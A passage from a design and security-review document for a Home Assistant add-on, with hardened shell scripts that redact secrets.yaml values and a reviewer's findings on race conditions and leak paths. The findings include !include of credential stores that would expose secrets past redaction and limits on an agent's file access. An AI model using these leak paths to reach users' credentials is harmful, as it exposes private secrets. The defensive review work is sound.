          c = substr(v, i, 1)
          if (q == "\"") {
            if (c == "\\") { out = out c substr(v, i + 1, 1); i++; continue }
            if (c == "\"") { closed = 1; break }
          } else {
            if (c == "\047") {
              if (substr(v, i + 1, 1) == "\047") { out = out "\047"; i++; continue }
              closed = 1; break
            }
          }
          out = out c
        }
        add1(v)
        add1(out)
        if (closed) add1(decode(out))
        return
      }
      add1(v)
      # Nit: a comment may follow a space or a tab; strip at the first one.
      p = index(v, " #"); q = index(v, "\t#")
      if (q > 0 && (p == 0 || q < p)) p = q
      if (p > 0) add1(substr(v, 1, p - 1))
    }
    BEGIN {
      nf = split(ENVIRON["ESHU_SECRETS_TEXT"], L, "\n")
      inblock = 0
      for (fi = 1; fi <= nf; fi++) {
        l = L[fi]
        if (l ~ /^[^ \t#][^:]*:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
        if (inblock) {
          if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
          inblock = 0
        }
        if (match(l, /^[^ \t#][^:]*:[ \t]/)) add(substr(l, RLENGTH + 1))
      }
      for (i = 1; i <= n; i++)
        for (j = i + 1; j <= n; j++)
          if (length(s[j]) > length(s[i])) { t = s[i]; s[i] = s[j]; s[j] = t }
    }
    { for (i = 1; i <= n; i++)
        while ((p = index($0, s[i])) > 0)
          $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
      print }'
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
if [ "$crc" -ne 0 ]; then
  rb="$real.eshu-tmp-rb-$me"
  [ ! -e "$rb" ] && [ ! -L "$rb" ] || exit 1
  umask_for "$fd4"
  set -C
  exec 6> "$rb"
  set +C
  fd6=/proc/$me/fd/6
  # AL1: the rollback file is qualified before it is written, and the mv is
  # confirmed to have installed the inode the descriptor holds.
  fd_ok "$fd6" "$rb" || { exec 6>&-; rm -f "$rb"; exit 1; }
  cat "$fd4" >&6 || { rm -f "$rb"; exit 1; }
  chown "$(stat -L -c %u:%g "$fd4")" "$fd6" 2>/dev/null || true
  mv -f "$rb" "$real" || exit 1
  [ "$(readlink "$fd6")" = "$real" ] || exit 1
  exit 18
fi
printf "\n"
printf "ok %s\n" "$(sha256sum "$fd5" | cut -d" " -f1)"
```

**RESTORE_SCRIPT**

```bash
# RESTORE_SCRIPT — $1 path, $2 backup, $3 tmp, $4 the backup's expected
# hash (AL5).
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
umask_for() {
  m=$(stat -L -c %a "$1")
  m=${m#"${m%???}"}
  umask "$(printf "%o" $(( 0777 & ~0$m )))"
}
fd_ok() {
  [ "$(readlink "$1")" = "$2" ] && [ -f "$1" ] && [ "$(stat -L -c %h "$1")" = 1 ]
}
path=$1; backup=$2; tmp=$3; expect=$4

case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in "$real".eshu-tmp-*) ;; *) exit 19 ;; esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ -f "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21

exec 4< "$backup"
fd4=/proc/$me/fd/4
[ "$(readlink "$fd4")" = "$backup" ] || exit 19
[ -f "$fd4" ] || exit 19
[ "$(stat -L -c %h "$fd4")" = 1 ] || exit 21
want=$(sha256sum "$fd4" | cut -d" " -f1)
# AL5: the backup is checked against the hash the dashboard recorded when it
# made it, before it is installed. Otherwise a changed backup is live before
# the dashboard compares hashes.
[ "$want" = "$expect" ] || exit 14

umask_for "$fd3"
set -C
exec 5> "$tmp"
set +C
fd5=/proc/$me/fd/5
fd_ok "$fd5" "$tmp" || { exec 5>&-; rm -f "$tmp"; exit 15; }
cat "$fd3" >&5 || { exec 5>&-; rm -f "$tmp"; exit 15; }
chown "$(stat -L -c %u:%g "$fd3")" "$fd5" 2>/dev/null || true

rb="$real.eshu-tmp-rb-$me"
[ ! -e "$rb" ] && [ ! -L "$rb" ] || exit 19
umask_for "$fd4"
set -C
exec 6> "$rb"
set +C
fd6=/proc/$me/fd/6
fd_ok "$fd6" "$rb" || { exec 6>&-; rm -f "$rb"; exit 16; }
cat "$fd4" >&6 || { exec 6>&-; rm -f "$rb"; exit 16; }
chown "$(stat -L -c %u:%g "$fd4")" "$fd6" 2>/dev/null || true
mv -f "$rb" "$real" || exit 16
[ "$(readlink "$fd6")" = "$real" ] || exit 1

redact() {
  set -f
  WITHHELD='[ESHU check output withheld: redaction unavailable]'
  # AL2: a symlinked secrets.yaml counts too — HA follows it, so a file may be
  # one. The list is every candidate; a find that failed means the list is not
  # trustworthy, and so does a candidate we cannot read.
  rc=0
  list=$(find /homeassistant -xdev -name secrets.yaml \( -type f -o -type l \) 2>/dev/null) || rc=$?
  if [ "$rc" -ne 0 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
  # AQ1: the bytes are read in the subshell that checked the descriptor, through
  # that descriptor — awk never opens a name again, so a swap after the check
  # cannot redirect the read. The combined text is capped at 64 KiB and passed
  # through the environment, never argv. Any failure withholds.
  text=''
  bytes=0
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    # The name test is only here to avoid a blocking open() on a FIFO; what
    # qualifies the file is the descriptor check and the read below.
    if [ ! -f "$f" ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    # A subshell, because a failed exec redirection ends a non-interactive
    # shell (dash 2, ash 1) — and the read uses fd 9, not the name.
    if ! body=$( ( exec 9< "$f" 2>/dev/null || exit 1
                   [ -f /proc/self/fd/9 ] || exit 1
                   cat /proc/self/fd/9 ) ); then
      printf "%s\n" "$WITHHELD"
      return 0
    fi
    n=$(printf "%s" "$body" | wc -c) || { printf "%s\n" "$WITHHELD"; return 0; }
    bytes=$((bytes + n))
    if [ "$bytes" -gt 65536 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    text="$text$body
"
  done
  IFS=$oldifs
  in=$(cat)
  # AL3/AQ1: one awk pass collects every value from the text the subshells read,
  # sorts longest first, then replaces. Values never leave awk and never touch
  # argv. awk opens no file now, so there is no getline whose return code could
  # be mis-read.
  printf "%s\n" "$in" | ESHU_SECRETS_TEXT="$text" awk -v withheld="$WITHHELD" '
    function hx(c) { return index("0123456789abcdef", tolower(c)) - 1 }
    function hex2(ss) { return hx(substr(ss, 1, 1)) * 16 + hx(substr(ss, 2, 1)) }
    function decode(v,   out, i, c, d) {
      out = ""
      for (i = 1; i <= length(v); i++) {
        c = substr(v, i, 1)
        if (c != "\\") { out = out c; continue }
        d = substr(v, i + 1, 1); i++
        if (d == "n") out = out "\n"
        else if (d == "t") out = out "\t"
        else if (d == "/") out = out "/"
        else if (d == "x" && substr(v, i + 1, 2) ~ /^[0-9A-Fa-f][0-9A-Fa-f]$/) {
          out = out sprintf("%c", hex2(substr(v, i + 1, 2))); i += 2
        } else out = out d
      }
      return out
    }
    function add1(v) {
      sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
      if (length(v) >= 4 && !(v in seen)) { seen[v] = 1; s[++n] = v }
    }
    function add(v,   q, i, c, out, closed) {
      sub(/^[ \t]+/, "", v)
      if (v == "") return
      q = substr(v, 1, 1)
      if (q == "\"" || q == "\047") {
        out = ""; closed = 0
        for (i = 2; i <= length(v); i++) {
          c = substr(v, i, 1)
          if (q == "\"") {
            if (c == "\\") { out = out c substr(v, i + 1, 1); i++; continue }
            if (c == "\"") { closed = 1; break }
          } else {
            if (c == "\047") {
              if (substr(v, i + 1, 1) == "\047") { out = out "\047"; i++; continue }
              closed = 1; break
            }
          }
          out = out c
        }
        add1(v)
        add1(out)
        if (closed) add1(decode(out))
        return
      }
      add1(v)
      # Nit: a comment may follow a space or a tab; strip at the first one.
      p = index(v, " #"); q = index(v, "\t#")
      if (q > 0 && (p == 0 || q < p)) p = q
      if (p > 0) add1(substr(v, 1, p - 1))
    }
    BEGIN {
      nf = split(ENVIRON["ESHU_SECRETS_TEXT"], L, "\n")
      inblock = 0
      for (fi = 1; fi <= nf; fi++) {
        l = L[fi]
        if (l ~ /^[^ \t#][^:]*:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
        if (inblock) {
          if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
          inblock = 0
        }
        if (match(l, /^[^ \t#][^:]*:[ \t]/)) add(substr(l, RLENGTH + 1))
      }
      for (i = 1; i <= n; i++)
        for (j = i + 1; j <= n; j++)
          if (length(s[j]) > length(s[i])) { t = s[i]; s[i] = s[j]; s[j] = t }
    }
    { for (i = 1; i <= n; i++)
        while ((p = index($0, s[i])) > 0)
          $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
      print }'
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
if [ "$crc" -ne 0 ]; then
  mv -f "$tmp" "$real" || exit 1
  [ "$(readlink "$fd5")" = "$real" ] || exit 1
  exit 18
fi
got=$(sha256sum "$fd6" | cut -d" " -f1)
[ "$got" = "$want" ] || exit 1
rm -f "$tmp"
printf "\n"
printf "ok %s\n" "$got"
```

**READ_SCRIPT**

```bash
# READ_SCRIPT — $1 path; the bytes go to stdout unchanged.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
path=$1

case "$path" in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21
cat "$fd3"
```

**SECRETS_KEYS_SCRIPT**

```bash
# SECRETS_KEYS_SCRIPT — READ_SCRIPT's preamble with the key list instead of
# the content: keys only, never values.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
path=$1

case "$path" in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13

exec 3< "$real"
fd3=/proc/$me/fd/3
[ "$(readlink "$fd3")" = "$real" ] || exit 13
[ -f "$fd3" ] || exit 12
[ "$(stat -L -c %h "$fd3")" = 1 ] || exit 21
awk '{ if (match($0, /^[^ \t#][^:]*:[ \t]/)) {
         k = substr($0, 1, RLENGTH - 2)
         sub(/^[\047"]/, "", k); sub(/[\047"]$/, "", k)
         print k } }' "$fd3"
```

**CHECK_SCRIPT**

```bash
# CHECK_SCRIPT — ha_config_check: no file argument; the whole tree is
# checked.
set -eu
set -f
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
me=$$
[ -d /homeassistant ] || exit 11
[ ! -L /homeassistant ] || exit 13
[ "$(realpath /homeassistant)" = /homeassistant ] || exit 13

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20


redact() {
  set -f
  WITHHELD='[ESHU check output withheld: redaction unavailable]'
  # AL2: a symlinked secrets.yaml counts too — HA follows it, so a file may be
  # one. The list is every candidate; a find that failed means the list is not
  # trustworthy, and so does a candidate we cannot read.
  rc=0
  list=$(find /homeassistant -xdev -name secrets.yaml \( -type f -o -type l \) 2>/dev/null) || rc=$?
  if [ "$rc" -ne 0 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
  # AQ1: the bytes are read in the subshell that checked the descriptor, through
  # that descriptor — awk never opens a name again, so a swap after the check
  # cannot redirect the read. The combined text is capped at 64 KiB and passed
  # through the environment, never argv. Any failure withholds.
  text=''
  bytes=0
  oldifs=$IFS
  IFS='
'
  for f in $list; do
    [ -n "$f" ] || continue
    # The name test is only here to avoid a blocking open() on a FIFO; what
    # qualifies the file is the descriptor check and the read below.
    if [ ! -f "$f" ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    # A subshell, because a failed exec redirection ends a non-interactive
    # shell (dash 2, ash 1) — and the read uses fd 9, not the name.
    if ! body=$( ( exec 9< "$f" 2>/dev/null || exit 1
                   [ -f /proc/self/fd/9 ] || exit 1
                   cat /proc/self/fd/9 ) ); then
      printf "%s\n" "$WITHHELD"
      return 0
    fi
    n=$(printf "%s" "$body" | wc -c) || { printf "%s\n" "$WITHHELD"; return 0; }
    bytes=$((bytes + n))
    if [ "$bytes" -gt 65536 ]; then printf "%s\n" "$WITHHELD"; return 0; fi
    text="$text$body
"
  done
  IFS=$oldifs
  in=$(cat)
  # AL3/AQ1: one awk pass collects every value from the text the subshells read,
  # sorts longest first, then replaces. Values never leave awk and never touch
  # argv. awk opens no file now, so there is no getline whose return code could
  # be mis-read.
  printf "%s\n" "$in" | ESHU_SECRETS_TEXT="$text" awk -v withheld="$WITHHELD" '
    function hx(c) { return index("0123456789abcdef", tolower(c)) - 1 }
    function hex2(ss) { return hx(substr(ss, 1, 1)) * 16 + hx(substr(ss, 2, 1)) }
    function decode(v,   out, i, c, d) {
      out = ""
      for (i = 1; i <= length(v); i++) {
        c = substr(v, i, 1)
        if (c != "\\") { out = out c; continue }
        d = substr(v, i + 1, 1); i++
        if (d == "n") out = out "\n"
        else if (d == "t") out = out "\t"
        else if (d == "/") out = out "/"
        else if (d == "x" && substr(v, i + 1, 2) ~ /^[0-9A-Fa-f][0-9A-Fa-f]$/) {
          out = out sprintf("%c", hex2(substr(v, i + 1, 2))); i += 2
        } else out = out d
      }
      return out
    }
    function add1(v) {
      sub(/^[ \t]+/, "", v); sub(/[ \t]+$/, "", v)
      if (length(v) >= 4 && !(v in seen)) { seen[v] = 1; s[++n] = v }
    }
    function add(v,   q, i, c, out, closed) {
      sub(/^[ \t]+/, "", v)
      if (v == "") return
      q = substr(v, 1, 1)
      if (q == "\"" || q == "\047") {
        out = ""; closed = 0
        for (i = 2; i <= length(v); i++) {
          c = substr(v, i, 1)
          if (q == "\"") {
            if (c == "\\") { out = out c substr(v, i + 1, 1); i++; continue }
            if (c == "\"") { closed = 1; break }
          } else {
            if (c == "\047") {
              if (substr(v, i + 1, 1) == "\047") { out = out "\047"; i++; continue }
              closed = 1; break
            }
          }
          out = out c
        }
        add1(v)
        add1(out)
        if (closed) add1(decode(out))
        return
      }
      add1(v)
      # Nit: a comment may follow a space or a tab; strip at the first one.
      p = index(v, " #"); q = index(v, "\t#")
      if (q > 0 && (p == 0 || q < p)) p = q
      if (p > 0) add1(substr(v, 1, p - 1))
    }
    BEGIN {
      nf = split(ENVIRON["ESHU_SECRETS_TEXT"], L, "\n")
      inblock = 0
      for (fi = 1; fi <= nf; fi++) {
        l = L[fi]
        if (l ~ /^[^ \t#][^:]*:[ \t]*[|>][-+]?[ \t]*$/) { inblock = 1; continue }
        if (inblock) {
          if (l ~ /^[ \t]+[^ \t]/) { add(l); continue }
          inblock = 0
        }
        if (match(l, /^[^ \t#][^:]*:[ \t]/)) add(substr(l, RLENGTH + 1))
      }
      for (i = 1; i <= n; i++)
        for (j = i + 1; j <= n; j++)
          if (length(s[j]) > length(s[i])) { t = s[i]; s[i] = s[j]; s[j] = t }
    }
    { for (i = 1; i <= n; i++)
        while ((p = index($0, s[i])) > 0)
          $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
      print }'
}

crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf "%s\n" "$out" | redact | head -c 65536
[ "$crc" -eq 0 ] || exit 18
printf "\n"
printf "ok check\n"
```

#### The W5 matrix: what was run

Same harness as round 8 (the shells' applets only, a substituted root, token
and timeout, a stub `ha`), now with a **FIFO reader**: the reader opens the
pipe before the script does, so a byte the script writes into it can be
proved. 82 checks per userland, 164 in all, all green. The new ones:

| case | expected |
|---|---|
| a FIFO planted at the backup name after the pre-check, reader attached | 15; the reader gets **nothing** (round 8 gave it the file's bytes) |
| the same at the temp name | 16; the reader gets no agent content |
| the same at the rollback name | 1; the reader gets nothing (round 8 had no check on fd 6) |
| a symlink planted at the backup name before the run | 19 by the `[ ! -e ]` check |
| the target swapped for a link between `realpath` and the open | 13, nothing printed |
| a symlinked `secrets.yaml` | its values are redacted |
| `find` fails | the withheld line, the status line intact |
| a candidate that is a link to a directory | the withheld line |
| a FIFO named `secrets.yaml` | not a candidate: no block, no withheld |
| a value that is a prefix of a longer one, in the same file and across files | the longer value is redacted whole |
| `hyphen-key`, `dotted.key`, `"quoted key"` | collected from `secrets.yaml` and listed by the keys script |
| `"value"  # note` | the value and its decoded form are redacted |
| `\t`, `\xNN` escapes | decoded and redacted |
| a restore whose backup no longer matches the recorded hash | 14, nothing installed |
| **text checks** | every `exec N>` is followed by `fd_ok` before any write; every `chown` targets a descriptor; no `chown -h` |

The remaining checks are round 8's, unchanged and still green: the good
write and restore, the hash mismatch, the failed check and its rollback, the
hard link, the planted links, the `!include` refusal, the mode preservation,
the 65 536-byte straddle and the status line on its own last line.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 433.26s (0:07:13)` (docs only).

#### What the security reviewer should read

`redact` (AL2, AL3), the four create blocks and their `fd_ok` lines (AL1,
AL6), and the preflight section (AL4). AL5 is one line in the restore plus its
argument. Everything else is unchanged from round 8.

_(security reviewer)_

**Security review, round 9 (2026-11-11, at `323ad00`): AL1, AL3's ordering
and keys, AL5, AL6 and the exit-code rule are approved. Two must-fixes
remain: AQ1 (`redact` reads each file by name a second time, and its error
check never fires) and AQ2 (`!include` targets need an allowlist). Then I
re-read only those two parts.**

The create blocks are right:
* `fd_ok` runs before every write, including the rollback;
* `chown` goes through the descriptor;
* the FIFO result in the matrix is the right proof.

A FIFO at a create name with no reader attached makes the open block. That
is a hang, not a leak, and the runner's SSH timeout ends it as
`config_state_unknown`. I accept it.

* **AQ1 (must): `redact` must read each source through the descriptor it
  checked, and must catch read errors.**
  * **The second open.** Each candidate is checked in a subshell, and that
    descriptor is closed. Then awk opens the file **by name** again
    (`getline l < f`). If the name is swapped in between, awk reads
    something else:
    * an empty regular file makes the real values silently go missing, and
      they print in the clear;
    * a FIFO makes the script hang.
    This is the same class as AH1.
  * **The error check never fires.** `if (l < 0)` tests the last *line*
    read, not `getline`'s return code. So a source that can't be read (it
    vanished, or is now a directory) ends the loop with nothing added, and
    no withheld line. That fails open.
  * **Fix:**
    * Read each candidate's bytes inside the same subshell that checks it,
      through that descriptor:
      `( exec 9< "$f" && [ -f /proc/self/fd/9 ] && cat /proc/self/fd/9 )`.
    * A non-zero status from that subshell means withhold.
    * Pass the combined text to awk through the environment
      (`ENVIRON`), not argv, and not by file name.
    * Cap the combined size at 64 KiB. Above that, withhold. This keeps it
      well under the kernel's per-string limit.
    * In awk, keep `getline`'s return code wherever a file is still read
      (`while ((r = (getline l < f)) > 0)` … `if (r < 0)`).
  * **Tests:**
    * a candidate swapped for an empty file after the check: the values are
      still redacted, or the output is withheld;
    * a candidate removed after the check: withheld;
    * a candidate turned into a directory after the check: withheld.
* **AQ2 (must): the preflight allowlists `!include` targets, not only
  refuses `secrets.yaml`.**
  * HA's `.storage/` files are JSON, and JSON is valid YAML. An `!include`
    of one loads every stored integration credential as config.
  * `ha core check` can then quote those values in its errors. Redaction
    only knows `secrets.yaml` values, so they print in the clear.
  * A path outside the tree, such as a key file, is the same leak.
  * **Fix:** after decoding, an `!include` target must meet all of these:
    * it ends in `.yaml` or `.yml`;
    * it has no segment that starts with `.`;
    * it resolves (relative to the file being written, the way HA resolves
      it) to a path under `/homeassistant`;
    * it is not `secrets.yaml`.
  * Apply the same rule to the directory argument of `!include_dir_*`.
  * The script's `grep` stays as it is.
  * **Tests:**
    * a `.storage` target is refused;
    * a `../` escape is refused;
    * an absolute path outside the tree is refused;
    * a non-`.yaml` target is refused;
    * an ordinary `packages/x.yaml` is accepted.
* **Nit:** a YAML comment can follow a tab as well as a space. Also strip at
  the first `\t#`, not only at ` #`.

### Round 10 — AQ1, AQ2 and the comment nit (design round)

* **AQ1 — the second open is gone.** `redact()` reads each candidate's bytes
  in the subshell that opens and qualifies it, through fd 9:

  ```sh
  if ! body=$( ( exec 9< "$f" 2>/dev/null || exit 1
                 [ -f /proc/self/fd/9 ] || exit 1
                 cat /proc/self/fd/9 ) ); then
    printf "%s\n" "$WITHHELD"
    return 0
  fi
  ```

  No name is opened again. awk gets the combined text in
  `ENVIRON["ESHU_SECRETS_TEXT"]` — not in argv, not as a file name — and opens
  no file at all, so there is no `getline` left whose return code could be
  mis-read; the `if (l < 0)` check is gone with it. A non-zero status from the
  subshell, a non-regular file at the descriptor, a `cat` error and a `wc`
  error all print the withheld line and return 0, so a source that vanished or
  became a directory withholds.
  * **Cap.** Each body is counted with `wc -c` and the running total must stay
    at or below 65 536 bytes; the first byte over withholds. That keeps the
    environment string well under the kernel's per-string limit, and `wc`
    counting bytes (not `${#body}` characters) means a multi-byte file cannot
    slip past it.
  * **The swap the reviewer named.** Once fd 9 is open, the descriptor names
    the inode: a name swapped for an empty file or a FIFO after that cannot
    change the read and cannot block it, so the values are still redacted (or
    the output withheld if the read fails). A swap **before** the open is
    caught by `[ -f ]`/the open itself and withholds. The tests assert
    "redacted or withheld", never a clear value, for all three cases.
  * **The three copies** — `WRITE_SCRIPT` (after its check),
    `RESTORE_SCRIPT` (after its check) and `CHECK_SCRIPT` — carry the same
    function.
  * **Checked under `dash`, BusyBox `ash` and `bash`** on a synthetic tree:
    quoted and unquoted values, a block scalar, a comment after a space and
    after a tab, a value at end-of-file with no newline, a symlink to a
    regular file (redacted), a symlink to `/dev/null` (withheld), a 70 KiB
    candidate (withheld), no candidate at all (output unchanged), and a
    directory or FIFO name (withheld).

* **AQ2 — the preflight allowlists the path-valued tags.** §AL4 refused only
  an `!include` of a `secrets.yaml`. That leaves `.storage/core.config_entries`
  — JSON is valid YAML, so `!include` loads every stored integration
  credential as config, and `ha core check` can then quote them — a `../`
  escape, and an absolute key file. The preflight now checks every decoded
  path-valued tag, `!include` and the directory argument of all four
  `!include_dir_list`, `!include_dir_named`, `!include_dir_merge_list` and
  `!include_dir_merge_named`, against all of:
  * the string, as YAML decodes it, ends in `.yaml` or `.yml` — file includes
    only; a directory has no suffix, so the four `!include_dir_*` tags are
    exempt from this one test. Case-sensitive, as the script's `case` is;
  * no path segment starts with `.` — that refuses `.storage`, `.git` and
    `..`, and it runs after the decode, so backslash or `\x2e` spellings
    cannot hide a segment;
  * resolved the way HA resolves it — relative to the directory of the file
    being written (`/homeassistant` for the root `configuration.yaml`), then
    `posixpath.normpath` — the result is `/homeassistant` itself for a
    directory include, or under `/homeassistant/` for a file include. An
    absolute target outside, or a `../` that leaves the tree, is refused;
  * the basename is not `secrets.yaml` (AL4's existing rule, kept).

  The allowlist refusals use `config_include_refused`; the secrets one keeps
  `config_secret_include_refused`. The dashboard resolves lexically — it never
  sees the add-on's filesystem — so a symlink inside the tree that points
  outside is outside the preflight's reach, and this note says so rather than
  implying it is checked. The script's `grep` stays as it is, as the reviewer
  asked: it is the second check for the plain `secrets.yaml` spelling, not the
  allowlist.
  * **Tests (design):** `.storage/core.config_entries` refused;
    `../outside.yaml` refused; `/etc/eshu-key.yaml` refused;
    `packages/x.txt` refused; `packages/x.yaml` accepted;
    `!include_dir_merge_named .storage` refused; `!include_dir_list packages`
    accepted; an `!include` of `secrets.yaml` still refused with the old code.

* **Nit — a tab can start the comment.** `add()` strips at the first of
  `" #"` and `"\t#"`, whichever comes first:

  ```awk
  p = index(v, " #"); q = index(v, "\t#")
  if (q > 0 && (p == 0 || q < p)) p = q
  if (p > 0) add1(substr(v, 1, p - 1))
  ```

  So `token: abcdef<TAB># note` contributes `abcdef`, not the comment.

Design text and scripts only; the code round is not started.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 429.31s (0:07:09)` (docs
only).

_(security reviewer)_

**Security review, round 10 (2026-11-11, at `e28f498`): AQ1 is approved. AQ2
is the right mechanism, but its scope is too wide. Two small must-fixes
remain, AT1 and AT2. Once they are in and the feature reviewer has checked
them, the design is closed from my side, and the next thing I read is the
code.**

AQ1 reads each source through the descriptor it checked. It counts bytes,
not characters. Every failure is withheld, and `getline` is gone. Accepted.

* **AT1 (must): an include may reach only what `ha_config_read` can
  already read.**
  * As written, AQ2 accepts any `.yaml` under `/homeassistant` that has no
    dot segment. That still includes:
    * `esphome/*.yaml`, which often holds Wi-Fi passwords and API
      encryption keys as literals, protected only by ESPHome's own
      `secrets.yaml`, which AH2 does not cover;
    * `custom_components/` and other add-on folders.
  * An `!include` of one of these brings its literals into HA's config.
    `ha core check` can then quote them in its output, and redaction doesn't
    know them.
  * **The rule:** the resolved target must be inside the read tool's own
    scope.
    * A file include must sit directly in `/homeassistant`, or under
      `/homeassistant/packages/`.
    * A directory include must be `/homeassistant/packages` or below it,
      never `/homeassistant` itself. The `include_dir` loaders recurse, so
      the root would reach every folder.
  * That way an include exposes nothing the agent couldn't already read. The
    `secrets.yaml` refusal stays.
  * **Tests:**
    * `esphome/x.yaml` is refused;
    * `!include_dir_named .` and `!include_dir_named /homeassistant` are
      refused;
    * `packages/a/b.yaml` is accepted.
* **AT2 (must): handle CRLF line endings in `secrets.yaml`.**
  * A file saved with CRLF endings (common when it is edited over the Samba
    add-on) splits into lines ending in `\r`. `add1()` trims only spaces
    and tabs, so the value stored is `value\r`. That never matches the
    output, which holds the value without the `\r` because HA's loader
    resolves it that way.
  * **Fix:** strip one trailing `\r` from each line before parsing. Do the
    same in `SECRETS_KEYS_SCRIPT`.
  * **Test:** a CRLF `secrets.yaml` is redacted.

I accept that a symlink inside the tree pointing outside it is out of reach
of a lexical preflight, as the note says. The agent can't create one.

### Round 11 — AT1 and AT2 (design round)

**Status: design text only — the code round is still not started.** Two
must-fixes, both in the preflight/collector this note already describes.

#### AT1 — an include may reach only what `ha_config_read` can already read

AQ2's scope test was "the resolved target is `/homeassistant` or under it".
That is wider than the read tool: `ha_config_list` and `ha_config_read` see
`*.yaml` directly in `/homeassistant` and everything under
`/homeassistant/packages`, and nothing else. So `esphome/*.yaml` —
Wi-Fi passwords and API encryption keys as literals, kept out of HA's
`secrets.yaml` and so out of AH2's redaction — and `custom_components/`
and the other add-on folders were still includable, and `ha core check` can
quote their literals in an error. The preflight now enforces the read
tool's own scope, in two shapes:

* **A file include** (`!include`): the decoded target, resolved the way HA
  resolves it (relative to the directory of the file being written, then
  `posixpath.normpath`, one trailing slash allowed for the directory form)
  must have `/homeassistant` as its dirname, or `/homeassistant/packages`
  or one of its descendants as its dirname. So `foo.yaml` (the config root)
  and `packages/a/b.yaml` are accepted; `esphome/x.yaml`,
  `custom_components/x.yaml` and `www/x.yaml` are refused.
* **A directory include** (the argument of all four `!include_dir_list`,
  `!include_dir_named`, `!include_dir_merge_list`,
  `!include_dir_merge_named`): the same resolved path must be
  `/homeassistant/packages` or below it. `/homeassistant` itself is
  refused — the loaders recurse, so the root would walk every folder,
  `esphome/` and `custom_components/` included — and so is every argument
  that normalises to the root: `.`, `./`, the empty string, or a path whose
  `..` segments come back to it. `packages` and `packages/sub` are
  accepted, as is an absolute `/homeassistant/packages/sub`.

The rest of AQ2 stands: for a file include the target ends in `.yaml` or
`.yml` (case-sensitive); no path segment starts with `.` (so `.storage`,
`.git` and `..` are out, tested after decoding); the basename is not
`secrets.yaml` (AL4, kept). Directory includes are still exempt from the
suffix test — a directory has no suffix — but not from the scope test.

The refusals keep the two codes: `config_include_refused` for the scope and
shape tests, `config_secret_include_refused` for `secrets.yaml`. The check
stays lexical, in the dashboard's preflight; the script's `grep` is
